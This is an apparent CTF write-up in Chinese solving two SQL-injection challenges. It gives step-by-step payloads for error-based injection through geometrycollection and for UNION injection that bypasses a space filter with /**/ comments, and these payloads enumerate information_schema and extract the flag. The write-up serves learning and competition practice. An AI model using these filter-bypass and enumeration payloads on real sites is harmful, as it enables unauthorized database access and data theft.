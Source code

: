 直接尝试联合查询
```sql
?id=1' order by 3 %23 # 报错
?id=1' order by 2 %23 # 报错
?id=1' order by 1 %23 # 正常，只有一列
?id=0' union select 1 # 回显hello

我开始还想不明白，后来仔细一想，发现hello只是有数据的情况下会回显的内容
那么利用布尔盲注也是可行的，只不过报错注入效率更高，所以先尝试报错注入
```
那么就不能利用联合查询，那么利用报错注入
然后继续测试发现floor extractvalue updatexml都被过滤，然后geometrycollection没有被过滤
那么就直接利用他得到flag
```
?id=1' and  geometrycollection((select * from(select * from(select group_concat(table_name) from information_schema.tables where table_schema=database())a)b)) %23  #flag,web_1
?id=1' and  geometrycollection((select * from(select * from(select group_concat(column_name) from information_schema.columns where table_name=0x666c6167)a)b)) %23 # flag,id
?id=1' and  geometrycollection((select * from(select * from(select group_concat(flag) from flag)a)b)) %23
```
<br>

### 简单的sql注入之2
还是先判断注入点
```sql
?id=1 # 回显用户1的数据，测试下来总共只有3条数据
?id=3a # 回显用户3的数据，但是ID回显是3a，说明ID的内容不是从数据库里面拿的\
?id='  # 出现报错信息，可以采取报错注入
'确认是字符型注入
```

继续构建payload,确定是否有字符被过滤
```sql
?id=3'||1%23 # 回显正常， 并且回显了3条数据，说明PHP拿数据是采用遍历的方式，并且没有过滤# || '
?id=3' or '1 # SQLi detected!
?id=3' || '1 # SQLi detected! 空格被过滤
?id=0'||''=' # 回显正常，利用fuzz测试，是否还存在其他字符被过滤
```
select ) 空格 + 被过滤
```
空格我直接利用了/**/来绕过，然后这边有个巨坑无法不地方，我始终想不明白
?id=0'/**/union/**/select/**/1%23   这样的语句能被执行了，但是单单输入select居然被过滤
继续测试发现 ?id=/**/select/**/ 这样同样select不会被过滤。同样 ) 也能这样绕过。很奇怪里面的检测规则
```
如果这样接下来就很好做了
```sql
?id=0'/**/order/**/by/**/2%23  #' 报错
?id=0'/**/order/**/by/**/1%23  #' 正常，确定一列
?id=0'/**/union/**/select/**/1%23 #' 回显字符1，继续注入
?id=0'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/%23 #' flag,web_1
?id=0'/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name=0x666c6167%23  #' flag,id
?id=0'/**/union/**/select/**/flag/**/from/**/flag%23  #' 得到flag
```
